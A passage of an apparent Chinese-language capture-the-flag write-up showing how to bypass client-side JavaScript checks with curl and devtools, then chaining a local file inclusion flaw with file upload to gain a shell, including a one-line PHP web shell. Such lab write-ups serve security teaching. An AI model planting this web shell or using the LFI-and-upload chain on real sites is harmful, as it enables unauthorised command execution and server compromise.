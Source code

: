 ![](https://i.imgur.com/WIyTOiB.png)

> 解法二

觀察一下他的 input name 跟 method
`name = pw method = POST`

可以用 curl 送出資料且不觸發到 JavaScript

`curl -d "pw=123" http://140.110.112.78:10204/`

> 解法三

打開 Chrome 的 Develope tool
先在 form 上面打 123 
接著在 Develope tool 輸入 `document.querySelector('form').submit()`

![](https://i.imgur.com/CwER3YA.png)

這樣就會直接 submit form 裡面的東西 且不會觸發到 onsubmit 的 Js

## Shell

進入網址後，會有三個連結，先傳個檔案上去試試看

![](https://i.imgur.com/cM5cW7J.png)

點進那個連結，會發現我們的檔案路徑為 `/files/<hash>/<hash>.txt`

![](https://i.imgur.com/I0j56sT.png)

回到最一開始的 ?page 那邊，依照他讀取的方式 可以隨意測試一下讀取其他東西

![](https://i.imgur.com/Xhbvpkd.png)

觀察一下，就會發現這個網站存在 LFI 的漏洞
從錯誤頁面的截圖，和上傳一個檔案後所存在的路徑，就可以知道檔案的目錄結構

```
.
|-- index.php
|-- modes
    |-- home
    |-- about
    `-- files
`-- files
    `-- {hash1}
         `-- {hash2}.txt   
```

透過 LFI 漏洞和檔案上傳就可以得到 `SHELL`

簡單的 php shell 程式碼
```php=
<?=`$_GET[1]`?>
```
